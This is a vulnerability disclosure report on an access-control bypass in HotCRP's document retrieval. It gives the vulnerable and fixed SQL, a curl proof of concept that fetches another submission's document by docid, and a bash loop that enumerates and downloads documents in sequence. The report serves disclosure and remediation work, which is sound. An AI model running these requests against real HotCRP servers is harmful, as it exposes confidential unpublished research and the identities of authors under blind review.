





# Security Vulnerability Report: HotCRP Document Access Control Bypass

## Summary

A critical Insecure Direct Object Reference (IDOR) vulnerability exists in HotCRP that allows authenticated users to download documents belonging to submissions they are not authorized to access. The vulnerability stems from insufficient validation of document ownership when retrieving documents by their storage ID.

## Vulnerability Details

| Field | Value |
|-------|-------|
| **Vendor** | HotCRP (Eddie Kohler) |
| **Product** | HotCRP Conference Review Software |
| **Affected Versions** | c8a7b0655753ab3ace1bc4c72c64b93e80594e8d  |
| **Vulnerability Type** | CWE-639: Authorization Bypass Through User-Controlled Key |

## Description

HotCRP is a widely-used open-source conference management system for academic paper submissions and peer review. A vulnerability was discovered in the document retrieval functionality that allows authenticated users to access documents from any submission in the system, regardless of their authorization level.

When a user requests a document using the `docid` (paperStorageId) parameter, the application fails to verify that the requested document belongs to a submission the user is authorized to access. The vulnerable code in `src/paperinfo.php` queries the `PaperStorage` table using only the `paperStorageId` without validating the associated `paperId`:

### Vulnerable Code

```php
// src/paperinfo.php (Line 2463) - VULNERABLE
$result = $this->conf->qe(
    "select " . $this->conf->document_query_fields() . "
     from PaperStorage
     where paperStorageId=?",
    $did
);
```

### Fixed Code

```php
// src/paperinfo.php (Line 2463) - PATCHED
$result = $this->conf->qe(
    "select " . $this->conf->document_query_fields() . "
     from PaperStorage
     where paperId=? and paperStorageId=?",
    $this->paperId,
    $did
);
```

## Attack Vector

An authenticated attacker can exploit this vulnerability by:

1. Authenticating to the HotCRP instance with any valid account (e.g., author, reviewer)
2. Identifying or enumerating `paperStorageId` values (which are sequential integers)
3. Crafting requests to the document download endpoint with arbitrary `docid` values
4. Accessing documents from submissions they are not authorized to view

### Proof of Concept

```bash
# Assume attacker has access to submission #1 but NOT submission #2
# Submission #2 has a document with paperStorageId=42

# The attacker can download submission #2's document by referencing
# their own submission (#1) but specifying the target docid:

curl -b "session_cookie" \
  "https://target.hotcrp.com/doc.php?p=1&docid=42" \
  -o stolen_document.pdf

# The server returns the document with ID 42, which belongs to
# submission #2, despite the request specifying p=1
```

### Enumeration Attack

Since `paperStorageId` values are sequential integers, an attacker can easily enumerate all documents in the system:

```bash
for docid in $(seq 1 1000); do
  curl -b "session_cookie" \
    "https://target.hotcrp.com/doc.php?p=1&docid=$docid" \
    -o "document_$docid.pdf" 2>/dev/null
done
```

### Practical Demonstration

First, register the user `a:admin` and submit `admin.pdf`.



Then check the result:



Next, register the user `user@example.com` and submit `test.pdf`.






It can be observed that, in the end, it is possible to access other users’ papers.

## Impact

- **Confidentiality**: HIGH - Attackers can access confidential academic submissions, including unpublished research papers, supplementary materials, author responses, and review attachments.
- **Integrity**: NONE - The vulnerability does not allow modification of documents.
- **Availability**: NONE - The vulnerability does not affect system availability.

### Potential Consequences

1. **Intellectual Property Theft**: Unpublished research papers could be stolen before publication
2. **Competitive Advantage Loss**: Researchers could have their ideas stolen by competitors
3. **Privacy Violation**: Author identities in double-blind review processes could be exposed
4. **Academic Misconduct**: Stolen research could be plagiarized or submitted elsewhere

## Affected Components

| File | Function | Issue |
|------|----------|-------|
| `src/paperinfo.php` | `document()` | Missing paperId validation in SQL query |
| `src/documentrequest.php` | `_apply_specific_version()` | Insufficient parameter validation |
| `src/api/api_document.php` | `document()` | API endpoint exposing the vulnerability |

## Remediation

### Immediate Mitigation

If unable to upgrade immediately, administrators can:

1. Restrict access to the `doc.php` endpoint at the web server level
2. Disable the document API by ensuring `return false;` is present in `api_document.php`
3. Monitor access logs for suspicious document access patterns

## References

- HotCRP GitHub Repository: https://github.com/kohler/hotcrp
- Fix Commit: https://github.com/kohler/hotcrp/commit/ceacd5f1476458792c44c6a993670f02c984b4a0
- CWE-639: https://cwe.mitre.org/data/definitions/639.html
- OWASP IDOR: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References

## Credits

- Vulnerability Discovery: [dem0]
- Vulnerability Analysis: [dem0]

## Disclaimer

This vulnerability report is provided for educational and authorized security research purposes only. The information contained herein should be used responsibly and in accordance with applicable laws and regulations.
